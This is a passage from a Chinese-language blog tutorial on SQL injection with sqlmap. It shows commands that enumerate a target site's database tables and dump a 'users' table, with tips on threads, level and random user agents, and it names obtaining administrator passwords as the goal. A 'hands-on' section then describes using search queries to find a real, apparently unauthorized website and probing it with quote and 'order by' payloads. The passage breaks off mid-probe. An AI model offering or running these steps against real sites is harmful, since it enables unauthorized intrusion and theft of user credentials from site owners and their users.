 > 很显然，我没有得到它。但是如果你得到了这个，恭喜你🎉，可以继续往下注入！

### 【注入tables】-D 'xxx_db' --tables

在获得数据库后，我们可以通过`sqlmap`查询该库中有哪些`table`：

```sql
sqlmap -u 'https://mygm.in/?cat=1' -D goodmorning_db --tables --radom-agent
```

这里不妨假设你已经得到了一个可疑的查询`url`，并且你通过上面的步骤得到了一个数据库`goodmorning_db`，我们使用了随机代理来提高成功率。假设你成功了，那么你会得到一个`tables`的列表。

> 如果你发现有点满，试试上面提到的`--threads=5`和`--level=5`这两个参数，我说过，他们可以提速！

### 【注入table】- T xxx --dump

假设在上一步你运气很好，得到了一个`tables`的表，其中有一个`users`的`table`：

```sql
xxx
xxx
xxx
users
xxx
```

那你就可以使用如下的命令进行

```sql
sqlmap -u 'https://mygm.in/?cat=1' -D goodmorning_db -T users --dump --threads=5 --random-agent
```

如果成功了，你将会得到表中的数据📊，运气好🍀将可能中奖得到管理员的账号密码，但有可能得到的密码是被加密的，你可能需要去解密它。	

## 小结

虽然看起来很简单，但很可能第一步你都没办法实现，根据本人亲自试验，大部分网站无法使用`waybackurls`进行历史的追溯，如果能追溯的网站，也不太能被你找到漏洞。

## 实战

本来本人觉得学完可能也用不到，结果转折来了，我在网上根据网站的特征还真找到一个可以注入的网站，下面来一波教学～

首先，根据这篇博客，我们就能最大程度的找到能够sql注入的网站：[寻找sql注入网站的方法](https://zhuanlan.zhihu.com/p/57751709)，根据文章的方法，我们在搜索栏中输入想要的网站特征🤔：

![截屏2024-11-20 07.09.04](https://p.ipic.vip/tp7n0q.png)

一路试下来找到这样一个网站：

![截屏2024-11-20 07.10.03](https://p.ipic.vip/8ddqzr.png)

我们进去，在路由最后加一个引号会发现网站出现变化，原本搜索出来的内容消失了，这就代表出现了错误，只是没有显示给我们看而已！

![截屏2024-11-20 07.11.52](https://p.ipic.vip/r3qxfq.png)

继续往下寻找信息，会发现加后面加上`' order by 1 -- -`网站正常显示，但是如果` order by 8 -- -`就又消失了，说明了两点：
